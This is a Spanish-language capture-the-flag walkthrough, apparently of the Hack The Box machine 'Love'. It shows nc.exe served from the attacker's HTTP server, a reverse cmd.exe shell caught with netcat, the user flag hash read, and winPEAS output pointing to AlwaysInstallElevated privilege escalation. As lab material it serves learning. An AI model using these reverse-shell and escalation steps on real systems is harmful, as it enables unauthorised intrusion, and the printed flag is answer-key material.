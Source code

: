 Funciona correctamente, esto es posible porque la pagina esta mal sanitizada y el desarrollador de la pagina confió plenamente en el input del usuario, esto es muy grave porque un atacante con malas intenciones podría aprovecharse de esto para ganar acceso.

# **GANANDO ACCESO A LA MAQUINA**

Vamos a compartirnos el nc.exe y enviarnos una cmd.exe:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [05/Aug/2021 12:47:26] "GET /nc.exe HTTP/1.1" 200 -
```

![/assets/images/Love/Untitled%207.png](/assets/images/Love/Untitled%207.png)

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.239] 50770
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>>
```

Podemos ver la flag:

```bash
Directory of C:\Users\Phoebe\Desktop

04/13/2021  03:20 AM    <DIR>          .
04/13/2021  03:20 AM    <DIR>          ..
08/04/2021  03:20 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,948,539,904 bytes free

type user.txt
type user.txt
2b399a1e890c2aa058491311c180f359
```

# **ESCALACION DE PRIVILEGIOS**

Nos pasamos el winPeas.exe para escanear posibles vías para escalar privilegios y lo ejecutamos:

```bash
Checking AlwaysInstallElevated                                                                                                                                                                                                           
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                                                                                                                             
    AlwaysInstallElevated set to 1 in HKLM!                                                                                                                                                                                                
    AlwaysInstallElevated set to 1 in HKCU!
```
